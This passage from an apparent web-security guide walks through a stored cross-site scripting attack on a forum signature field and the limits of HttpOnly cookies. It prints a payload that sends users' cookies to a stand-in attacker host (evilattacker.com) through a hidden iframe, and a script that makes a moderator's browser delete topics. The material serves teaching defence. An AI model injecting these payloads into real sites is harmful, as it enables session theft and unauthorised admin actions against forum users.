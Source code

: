 A Cross-Site Scripting Example
==============================

Let's imagine that an attacker has stumbled across a custom built forum which allows users to display a small signature beneath their comments. Investigating this further, the attacker sets up an account, spams all topics in reach, and uses the following markup in their signature which is attached to all of their posts:

.. code-block:: html

    <script>document.write('<iframe src="http://evilattacker.com?cookie=' + document.cookie.escape() + '" height=0 width=0 />');</script>

By some miracle, the forum software includes this signature as-is in all those spammed topics for all the forum users to load into their browsers. The results should be obvious from the Javascript code. The attacker is injecting an iframe into the page which will appear as a teeny tiny dot (zero sized) at the very bottom of the page attracting no notice from anyone. The browser will send the request for the iframe content which passes each user's cookie value as a GET parameter to the attacker's URI where they can be collated and used in further attacks. While typical users aren't that much of a target for an attacker, a well designed trolling topic will no doubt attract a moderator or administrator whose cookie may be very valuable in gaining access to the forums moderation functions.

This is a simple example but feel free to extend it. Perhaps the attacker would like to know the username associated with this cookie? Easy! Add more Javascript to query the DOM and grab it from the current web page to include in a "username=" GET parameter to the attacker's URL. Perhaps they also need information about your browser to handle a Fingerprint defense of the session too? Just include the value from "navigator.userAgent".

This simple attack has a lot of repercussions including potentially gaining control over the forum as an administrator. It's for this reason that underestimating the potential of XSS attack is ill advised.

Of course, being a simple example, there is one flaw with the attacker's approach. Similar to examples using Javascript's alert() function I've presented something which has an obvious defense. All cookies containing sensitive data should be tagged with the HttpOnly flag which prevents Javascript from accessing the cookie data. The principle you should remember, however, is that if the attacker can inject Javascript, they can probably inject all conceivable Javascript. If they can't access the cookie and mount an attack using it directly, they will do what all good programmers would do: write an efficient automated attack.

.. code-block:: html

     <script>
        var params = 'type=topic&action=delete&id=347';
        var http = new XMLHttpRequest();
        http.open('POST', 'forum.com/admin_control.php', true);
        http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        http.setRequestHeader("Content-length", params.length);
        http.setRequestHeader("Connection", "close");
        http.onreadystatechange = function() {
            if(http.readyState == 4 && http.status == 200) {
                // Do something else.
            }
        };
        http.send(params);
     </script>

The above is one possible use of Javascript to execute a POST request to delete a topic. We could encapsulate this in a check to only run for a moderator, i.e. if the user's name is displayed somewhere we can match it against a list of known moderators or detect any special styling applied to a moderator's displayed name in the absence of a known list.

As the above suggests, HttpOnly cookies are of limited use in defending against XSS. They block the logging of cookies by an attacker but do not actually prevent their use during an XSS attack. Furthermore, an attacker would prefer not to leave bread crumbs in the visible markup to arouse suspicion unless they actually want to be detected.

Next time you see an example using the Javascript alert() function, substitute it with a XMLHttpRequest object to avoid being underwhelmed.